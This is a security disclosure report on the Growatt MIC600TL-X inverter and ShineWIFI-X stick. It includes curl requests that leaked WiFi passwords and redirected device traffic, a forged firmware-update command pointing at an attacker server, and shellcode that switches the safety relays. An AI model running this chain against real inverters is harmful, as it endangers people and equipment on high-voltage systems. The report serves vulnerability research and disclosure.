




# Analysis of the Growatt MIC600TL-X and ShineWIFI-X solar inverter system

In this report a security analysis of the **Growatt MIC600TL-X + ShineWIFI-X** solar inverter including its cloud connectivity is presented. 

## Table of content

[TOE](#toe) \
[Extracting WiFi credentials](#extracting-wifi-credentials) \
[Installing a manipulated firmware remotely](#installing-a-manipulated-firmware-remotely) \
[Exploitation](#exploitation) \
[Disclosure](#disclosure)

## TOE

The Growatt MIC600TL-X is a popular solar inverter. It has a CE symbol and VDE AR-N 4105:2018 conformity. 

TOE:

* A **Growatt MIC600TL-X** (600 W) w/ latest FW. Note that the whole TL-X family may be affected.
* A **ShineWIFI-X Stick** for cloud communication w/ FW 3.1.0.5. 
* The **Growatt web cloud acccess** at [server.growatt.com](https://server.growatt.com).

Basically, an inverter transforms the electrical energy from the solar panels (DC) into grid compatible energy (AC 230 V 50 Hz sinus in Europe). 
It deals with high current and voltage so this is highly safety relevant. 

Cloud connectivity is achieved via the ShineWIFI-X Stick, connected to the inverter via USB. On the other side, the stick is connected to the home router i.e. to the internet.

## Extracting WiFi credentials

With a valid session from any account, the registers / parameters of connected ShineWIFI-X stick can be remotely read out. Only the serial number (SN) is needed - not the checking code. A normal account can be created at any time, from which session cookies can be used. 

Finding valid serial numbers can be done by analyzing the distribution of the alphanumerical characters and brute forcing. The ShineWIFI-X uses a 10 characters SN with alphanumerical characters (upper case). After a static prefix, the rest of the characters seem to have different distributions (e.g. the 7th characters is only numerical).

Here is the API used to retrieve a wifi password of an inverter, knowing only its serial number:

```
curl 'https://server.growatt.com/ftp.do' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'cookie: JSESSIONID=X; SERVERID=X' -H 'user-agent: okhttp' --data-raw 'action=readDatalogParam&dataLogSn=XGDXXXXXXX&&paramType=set_any_reg&addr=57' 
```

> [!NOTE]
> Missing API authorization has been fixed.

## Installing a manipulated firmware remotely

A new firmware can be installed locally via a USB stick or the support can remotely install it. 

With a combination of insecure object reference, insecure communication, lack of update image signature and lack of secure boot, a manipulated firmware can be installed in any connected device by knowing only the serial number of its associated ShineWIFI-X stick.

Here are the puzzle pieces needed:
* "Decrypt" the cloud communication 
* Redirect traffic to an attacker controlled machine 
* Understand the device architecture and how to switch on both protection relays
* Write shellcode to switch both relays
* Build an update image

### "Encrypted" Communication between device and cloud

The ShineWIFI-X communicates with the cloud server at `server.growatt.com` via a TCP stream on port 5279, containing simple messages (something like MODBUS-TCP). Each message begins with a header of 8 bytes (length, type...) and ends with a MODBUS-CRC16. The content of the message is not in plaintext, it is "encrypted" via a bytewise `XOR` with the ASCII encoded string `GrowattGrowattGrowattGrowattGrowatt[...]` (repeated). Each message begins with the "encrypted" serial number of the ShineWIFI-X stick.

Here is a message from the cloud to the device, commanding the device to update the firmware of its main DSP:
```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000  00 01 00 06 00 69 01 18 1F 35 2B xx xx xx xx xx  .....i...5+XXXXX
00000010  xx xx 77 61 74 74 47 72 6F 77 61 74 74 47 72 6F  XXwattGrowattGro
00000020  77 61 74 74 47 72 6F 27 61 31 45 64 06 16 07 04  wattGro'a1Ed....
00000030  44 46 64 1A 1B 03 11 4E 5B 68 11 0B 19 4F 13 06  DFd....N[h...O..
00000040  28 05 0E 03 15 5A 17 28 1F 40 02 11 10 15 33 17  (....Z.(.@....3.
00000050  40 13 04 02 1D 24 17 40 39 04 03 5B 00 3A 2E 36  @....$.@9..[.:.6
00000060  50 44 5B 00 3A 2E 36 50 44 0C 3F 5C 07 12 19 27  PD[.:.6PD.?\...'
00000070  FB                                               û
```

Here is the "decrypted" message:

```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000  00 01 00 06 00 69 01 18 58 47 44 xx xx xx xx xx  .....i..XGDXXXXX
00000010  xx xx 00 00 00 00 00 00 00 00 00 00 00 00 00 00  XX..............
00000020  00 00 00 00 00 00 00 50 00 45 31 23 74 79 70 65  .......P.E1#type
00000030  30 32 23 68 74 74 70 3A 2F 2F 63 64 6E 2E 67 72  02#http://cdn.gr
00000040  6F 77 61 74 74 2E 63 6F 6D 2F 75 70 64 61 74 65  owatt.com/update
00000050  2F 64 65 76 69 63 65 2F 4E 65 77 2F 47 48 41 41  /device/New/GHAA
00000060  31 30 2F 47 48 41 41 31 30 78 78 2E 68 65 78     10/GHAA10xx.hex
```

A full url of the update image is transmitted to the device, which will use a `http GET` command to download it. By manipulating the url, a manipulated firmware can be downloaded and installed in the device. Instead of a domain name, an IP address (v4) can be used too.

Knowing that, a packet can be craftet, commanding the device to download and install a firmware from an attacker controlled source.

### Redirect the traffic to an attacker-controlled machine

A cloud API can be used to redirect the *device <> cloud* traffic from the ShineWIFI-X stick to *any* IP v4 address. Valid session cookies and the serial number of the targeted ShineWIFI-X stick are needed:

```
curl 'https://server.growatt.com/ftp.do' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'cookie: JSESSIONID=X; SERVERID=X' -H 'user-agent: okhttp' --data-raw 'action=setDatalogParam&dataLogSn=XGDXXXXXXX&paramType=1&param_1=x.x.x.x&param_2=' 
```
> [!NOTE]
> Missing API authorization has been fixed.

After this command, the targeted ShineWIFI-X stick tries to connect to the given IP.

### Device Architecture

The Growatt MIC600TL-X inverter contains different processor systems. The "general purpose" processor is an arm based Gigadevice CPU (GD32F305VCT6). Most of the inverter related operations (switching on and off the transistors and relay, monitoring the voltages) are handled by a TI DSP TM320F28035. This DSP controls part of the critical operations via dedicated pins. On top of that, the Growatt MIC600TL-X implements an additional microcontroller (either STM32F042K4T6 OR Gigadevice GD32E230K4T6) called MCU in this report, which adds a redundant safety measure: there are two grid side relays in series. One is controlled by the TI DSP, the other by the MCU. 
The CPU communicates with the DSP via a galvanic isolated UART. The DSP communicates with the MCU via a SPI bus.
Here is a simplified block diagram of the device: 



Here is a picture of the main board:



Following strategy has been used to switch on both relays R1 and R2 with a manipulated DSP update image: the first relay R1 is directly connected to the DSP via a dedicated pin. Switching it is simple: set the pin as GPIO output with value '1'. The second relay R2 is connected to the MCU via a dedicated pin. The MCU is probably not updatable. However, a specific SPI frame from the DSP can be used to switch on the relay (see the next section).

#### DSP <> MCU communication

In order to switch the relay R2 (connected to the MCU), following SPI traffic is needed: in a first phase, the DSP sends a sync word `0xAB` repeatedly to the MCU and waits for the answer `0xCD`. In a second phase, following frame is sent by the DSP to the MCU:

```
0x7d 0x0c 0x00 0x04 0x00 0x5a 0x7d 0x1c 0x66 0x51 0xed 0x98
```

This frame has three parts. A header `0x7d 0x0c`, the frame content and a 2 bytes CRC (MODBUS-CRC) at the end.
The MCU flash dump has been used to craft this frame. 

Note that all devices (MCU, CPU, DSP) do not use any form of secure boot and secure debugging.

### DSP Shellcode

A simple shellcode has been written which switches both relays and 2 H-Bridge transistors on after deactivating interrupts and watchdog:

```c
void dothat()
{
    long i;
    long j;

    Uint16 rxword16;
    Uint8 rxword8;
    Uint8 sync = 0;

    // frame to switch on relay 2
    Uint8 spi_frame_1[12] = {
        0x7d, 0x0c, 0x00, 0x04,
        0x00, 0x5a, 0x7d, 0x1c,
        0x66, 0x51,
        // checksum
        0xed, 0x98
    };

    // frame to switch off relay 2
    Uint8 spi_frame_2[12] = {
        0x7d, 0x0c, 0x00, 0x00,
        0x00, 0x5a, 0x7d, 0x1c,
        0x66, 0x51,
        // checksum
        0x2d, 0xdd
    };
    // disable all IRQ
    DINT;
    // allow access to system reg
    EALLOW;
    // switch off watchdog
    SysCtrlRegs.WDCR = 0x00EB;

    // reset spi, 8 bit word
    SpibRegs.SPICCR.all =0x0007;

    // reset fifos
    SpibRegs.SPIFFTX.all=0x4040;
    SpibRegs.SPIFFRX.all=0x0044;

    // spi fifo config
    SpibRegs.SPIFFTX.all=0xE040;
    SpibRegs.SPIFFRX.all=0x2044;
    SpibRegs.SPIFFCT.all=0x0;

    // talk, no irq, master
    SpibRegs.SPICTL.all =0x0006;

    // release spi from reset, 8 bit word
    SpibRegs.SPICCR.all =0x0087;
    SpibRegs.SPIPRI.bit.FREE = 1;

    // configure GPIOs
    // relay
    GpioCtrlRegs.GPAMUX1.bit.GPIO6 = 0;
    GpioCtrlRegs.GPADIR.bit.GPIO6 = 1;
    GpioDataRegs.GPASET.bit.GPIO6 = 0;
    // Q3
    GpioCtrlRegs.GPAMUX1.bit.GPIO2 = 0;
    GpioCtrlRegs.GPADIR.bit.GPIO2 = 1;
    GpioDataRegs.GPASET.bit.GPIO2 = 1;
    // Q4
    GpioCtrlRegs.GPAMUX1.bit.GPIO0 = 0;
    GpioCtrlRegs.GPADIR.bit.GPIO0 = 1;
    GpioDataRegs.GPASET.bit.GPIO0 = 1;

    // send sync word to MCU and wait for reply (0xCD)
    while(sync == 0)
    {
        // !!! left justified !!!
        SpibRegs.SPITXBUF=0xAB00;
        // we send only one word
        while(SpibRegs.SPIFFTX.bit.TXFFST != 0);
        rxword16 = SpibRegs.SPIRXBUF;
        rxword8 = (rxword16 >> 0) & 0xFF;
        if(rxword8 == 0xCD) sync = 1;
    }

    // wait some time
    for(i = 0; i < 600000; i++);

    while(1)
    {

        // transmit frame > set relay 2
        for(j=0;j<12;j++)
        {
            // fifo full >>> TXFFST =  4
            while(SpibRegs.SPIFFTX.bit.TXFFST == 0x4);
            // !!! left justified !!!
            SpibRegs.SPITXBUF=(spi_frame_1[j] << 8) & 0xFF00;
        }

        // set relay 1
        GpioDataRegs.GPASET.bit.GPIO6 = 1;

        // adjust timing here
        for(i = 0; i < 600000; i++);

        // transmit frame > unset relay 1
         for(j=0;j<12;j++)
         {
             // fifo full >>> TXFFST =  4
             while(SpibRegs.SPIFFTX.bit.TXFFST == 0x4);
             // !!! left justified !!!
             SpibRegs.SPITXBUF=(spi_frame_2[j] << 8) & 0xFF00;
         }

         // unset relay 1
         GpioDataRegs.GPASET.bit.GPIO6 = 0;

         // adjust timing here
         for(i = 0; i < 600000; i++);
    }
}
```

The compiled machine code can be injected into the image in an empty flash area. A branch to this code is added after device initialization. 

### DSP Update Image

An image consists in 20 header bytes (five 32 bit words) followed by the firmware in Intel HEX format. 
Here is the header format:
* First word is `0x00000000`
* Second word is the length in bytes (w/o header)
* Third word is the CRC32 of the image (w/o header)
* Fourth and fifth words are `0x00000000`

The Intel HEX Firmware does not contain any cryptographic signature, so that a manipulation is possible.

### Proof of Concept

All steps have been tested remotely i.e. the attacker just needs Internet access:



* A first machine is used as man-in-the-middle. First a command is sent to the targeted ShineWIFI-X (and consequently the connected MIC600TL-X) to redirect its cloud traffic to this machine IP and port. A prepared *update* command is injected to the device at some point of time. This command contains the IP and port of the second machine. Note that this script also adds the correct header to the modified DSP update image hex file.

* The second machine is used as http server with the prepared manipulated DSP firmware image. After the command injection, the inverter will get the update image from this machine and install it. Note that the http server must support *partial content* (206).

As a proof that both relays are toggled, a small signal generator was connected to the grid side (5V peak to peak). Here is the oscilloscope picture after the firmware update:



Note that the relays and transistors were alternatively switched off and on with this firmware image. 

## Exploitation

Besides leaking WiFi credentials, the system could be probably damaged remotely through manipulated firmware. 
A manipulated CPU firmware could be used to misuse the internet connection for criminal activities.

## Disclosure

* 2023-10-16: Report sent to the german BSI and forwarded to the manufacturer
* 2023-11-29: Answer from the vendor
* 2024-07-27: Publication
* 2024-10-31: Fix by vendor

